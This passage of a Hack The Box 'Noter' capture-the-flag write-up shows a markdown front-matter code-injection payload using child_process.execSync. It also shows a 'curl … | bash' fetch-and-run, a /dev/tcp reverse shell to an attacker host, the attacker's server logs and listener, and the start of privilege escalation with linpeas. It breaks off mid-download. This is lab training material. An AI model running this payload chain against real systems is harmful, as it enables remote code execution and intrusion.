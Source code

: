 ```
We can leverage  the code injection vulnerably  to a ```reverse shell``` by hosting a malicous ```.md``` file on a webserver and triggering the ``` Export directly from cloud``` function from the ```Noter``` webserver. 

I created a little execution chain to make the payload easier editable.

Skeleton exploit:
```---js\n((require("child_process")).execSync("<PAYLOAD>"))\n---RCE```

Create a malicious mardown file:
```
┌──(kali㉿kali)-[~/htb/noter/serve]
└─$ cat exploit.md 
---js\n((require("child_process")).execSync("curl 10.10.14.7/shell.sh | bash"))\n---RCE

┌──(kali㉿kali)-[~/htb/noter/serve]
└─$ cat shell.sh  
sh -i >& /dev/tcp/10.10.14.7/8081 0>&1
```

Host the file on a webserver:
```
┌──(kali㉿kali)-[~/htb/noter/serve]
└─$ python -m updog -p 80
[+] Serving /home/kali/htb/noter/serve...
 * Running on all addresses.
   WARNING: This is a development server. Do not use it in a production deployment.
 * Running on http://192.168.178.89:80/ (Press CTRL+C to quit)
10.10.11.160 - - [19/Jun/2022 23:51:02] "GET /exploit.md HTTP/1.1" 200 -
10.10.11.160 - - [19/Jun/2022 23:51:03] "GET /shell.sh HTTP/1.1" 200 -
```

Start a little reverse shell handler:
```
┌──(kali㉿kali)-[~]
└─$ rlwrap nc -lvnp 8081
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::8081
Ncat: Listening on 0.0.0.0:8081
```

### User flag
```
cat /home/svc/user.txt
[REDACTED]
svc@noter:~$ 
```

## Privilege Escalation

Starting off with Linpeas enumeration.
Hosting linpeas on a server:
```
┌──(kali㉿kali)-[~/htb/noter/serve]
└─$ wget https://github.com/carlospolop/PEASS-ng/releases/download/20220619/linpeas.sh
--2022-06-20 00:02:20--  https://github.com/carlospolop/PEASS-ng/releases/download/20220619/linpeas.sh
Resolving github.com (github.com)... 140.82.121.4
Connecting to github.com (github.com)|140.82.121.4|:443... connected.
HTTP request sent, awaiting response... 302 Found